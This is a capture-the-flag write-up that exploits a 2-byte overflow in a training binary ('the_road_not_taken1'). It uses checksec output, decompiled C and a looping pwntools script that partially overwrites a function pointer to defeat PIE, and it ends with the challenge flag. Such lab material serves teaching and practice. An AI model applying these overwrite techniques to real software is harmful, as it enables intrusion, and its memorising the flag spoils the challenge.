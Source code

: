 # Overview

## Analysis

File check

```bash
$ file the_road_not_taken1 
the_road_not_taken1: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=fbde2c5d6b8f1315d7b2634ae43d339d49aaa455, for GNU/Linux 4.4.0, not stripped
```

Security Check

```bash
checksec --file the_road_not_taken1 
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

**Key Findings**
- file is a 64bit binary
- dynamically linked -> means it will fetch libc functions
- not stripped -> functions name stays, we can see it in ghidra/ida
Security 
- no stack canary, possible buffer overflow
- PIE, address of the functions/gadgets will be randomized

**Execution Testing**
```bash
$ ./the_road_not_taken1 
Can you please lead me to the right direction to get to the flag?
yoko
This doesn't look like the right direction are u sure
```

```bash
./the_road_not_taken1 
Can you please lead me to the right direction to get to the flag?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
This doesn't look like the right direction are u sure
```
hm, no seg fault? no overflow?

**Decompiler checking**

main function
```C
void main(void)

{
  undefined local_218 [520];
  code *local_10;
  
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  local_10 = wrongdirection;
  puts("Can you please lead me to the right direction to get to the flag?");
  read(0,local_218,0x20a);
  (*local_10)();
  return;
}

```
wrong_direction
```
void wrongdirection(void)

{
  puts("This doesn\'t look like the right direction are u sure");
  return;
}
```
right_direction
```
void rightdirection(void)

{
  puts("Thanks for the help");
  puts("nite{not_the_real_flag}");
  return;
}
```

There is indeed buffer overflow in the main function!
Its just damn big.
```C
undefined local_218 [520]; # buffer size 520
read(0,local_218,0x20a); # reads 0x20a = 522
```

so we can only overflow 2 bytes, not enough to replace all of the return address to go to right_direction functions

however last 2 bytes of PIE wont change 
"Due to the way PIE randomisation works, the base address of a PIE executable will **always** end in the hexadecimal characters `000`. This is because **pages** are the things being randomised in memory, which have a standard size of `0x1000`. Operating Systems keep track of page tables which point to each section of memory and define the permissions for each section, similar to segmentation.

Checking the base address ends in `000` should _probably_ be the first thing you do if your exploit is not working as you expected." from https://ir0nstone.gitbook.io/notes/types/stack/pie 

# Solution

we can find the offset of the right_direction function and put it at the end of our payload
```python
io = start()
padding = 520
right = elf.symbols.rightdirection
offset = b'A'*padding
offset = b'A'*520
payload = offset + b'\x59\x11'
io.recvline()
io.sendline(payload)
print(io.recvline())
print(io.recvline())
```

however this wont work because the offset will be added into the base address
example:
- base address = 0x11111000
- right_direction offset = 0x1000
- right_direction address = 0x11112000
To solve this we need to loop many times through the connection and get the base address fit with our payload


``` python
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)
# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())
# Set up pwntools for the correct architecture
exe = './the_road_not_taken1'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'
# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
io = start()
padding = 520
right = elf.symbols.rightdirection
offset = b'A'*padding


for j in range(0,100):

    try:

        offset = b'A'*520
        payload = offset + b'\x59\x11'
        io.recvline()
        io.sendline(payload)
        print(io.recvline())
        print(io.recvline())
    except EOFError:
        pass

```

nite{R0b3rT_fro5t_ftw_32dx5hp}